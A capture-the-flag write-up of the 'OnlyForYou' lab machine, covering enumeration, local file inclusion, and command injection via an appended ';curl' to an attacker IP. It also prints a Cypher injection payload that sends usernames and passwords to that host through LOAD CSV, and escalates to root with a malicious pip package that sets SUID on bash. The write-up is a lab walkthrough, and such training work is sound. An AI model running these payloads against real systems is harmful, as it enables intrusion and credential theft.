# OnlyForYou
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -p- -Pn 10.10.11.210 -T4                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-25 16:45 BST
Nmap scan report for 10.10.11.210 (10.10.11.210)
Host is up (0.15s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http

Nmap done: 1 IP address (1 host up) scanned in 1249.23 seconds
```
```
┌──(kali㉿kali)-[~]
└─$ nmap -p22,80 -sC -sV -Pn 10.10.11.210 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-25 17:08 BST
Nmap scan report for 10.10.11.210 (10.10.11.210)
Host is up (0.19s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp    open   http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.46 seconds
```

- Web Server



- Found a `vhost`
  - `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://only4you.htb/' -H 'Host: FUZZ.only4you.htb'`


- `gobuster`
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://beta.only4you.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt              
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://beta.only4you.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/25 17:33:53 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 405) [Size: 683]
/source               (Status: 200) [Size: 12127]
/list                 (Status: 200) [Size: 5934]
/convert              (Status: 200) [Size: 2760]
/resize               (Status: 200) [Size: 2984]
Progress: 20734 / 26585 (77.99%)[ERROR] 2023/05/25 17:38:42 [!] parse "http://beta.only4you.htb/error\x1f_log": net/url: invalid control character in URL
Progress: 26584 / 26585 (100.00%)
===============================================================
2023/05/25 17:40:03 Finished
===============================================================
```

## Foothold
- If we visit `beta.only4you.htb` we can download the source code
  - Download it and analyze
  - We have a possbile `lfi`


- Testing proves it



- Let's check if there are other `vhosts`
  - We have a location of our application in `/var/www/only4you.htb/`



- Open a source file
  - We can use `wfuzz` or just guess it and try`app.py`
  - `wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-extensions-lowercase.txt -u http://beta.only4you.htb/download -X POST -d "image=/var/www/only4you.htb/FUZZ.FUZ2Z"`



- Let's check `form.py` since it is included in `app.py`


- We have a possible `command injection` but we need to bypass `regex` check 
  - [re.match](https://docs.python.org/3/library/re.html#re.match) checks only the start of the string
  - So we can append our command



- The request 
  - Let's append `;curl http://10.10.16.48:8000` or `;ping -c 1 10.10.16.48` to `email` parameter
  - Start `webserver` or `tcpdump` and send request
  - And we have a connection


- Let's get `revshell`




## User
- Enumerate 
  - We have interesting ports `7687`, `7474`, `8001`, `3000`

```
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                                                                                                                                                           
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1049/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

- I uploaded `chisel` and started remote port forwarding
  - Note: the screenshots only show `7687`, `7474`
    - I forgot to take screenshots when I added other ports 


- Port `3000`
  - `Gogs`





- Port `8001`
  - `Dashboards`
  - Trying default creds `admin:admin` works



- If we look closely, we see tasks
  - `Migrated to new database(neo4j)`
  - So we need to play with `neo4j`



- Port `7474`
  - `neo4j`


- [Neo4j](https://neo4j.com) is a graph based database
- It uses `Cypher` as query language and has a documentation to get familiar with it
  - https://neo4j.com/developer/cypher/querying/
- Googling shows that we can try `Cypher Injections`
  - https://neo4j.com/developer/kb/protecting-against-cypher-injection/
  - https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels
- Dashboards (port `8001`) had `Employee` page
  - If we play around with search, we have our injection




- By playing around with payloads I eventually managed to get password
  - Note, screen shows only one password (I had to reset the box to get `john` hash)
  - The following query had better results (props to [0xdf](https://0xdf.gitlab.io))
  - `' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.16.48/?'+d as a return a //`





- Now we can `ssh` as john

## Root
- Enumerate 
  - `sudo -l`



- It looks like `john` can download any repository from `Gogs`
  - If we try `john`'s creds to login to `Gogs`, they work
  - Potential privilege escalation is to create a malicious package and download it to execute arbitrary code.
  - https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/
  - https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8
  - https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/


- Now we jsut have to follow the steps
  - We need to download https://github.com/wunderwuzzi23/this_is_fine_wuzzi
  - And modify the `setup.py` and then build it via `python3 -m build`
  - Create repository and upload `tar` from `dist` directory that was created after build
    - Or we can create a repo and publish it as `john` with `tar` in it (which is what I did)




- Now download via `sudo`
  - My malicious package added `suid` bit to `bash`
  - We are `root`



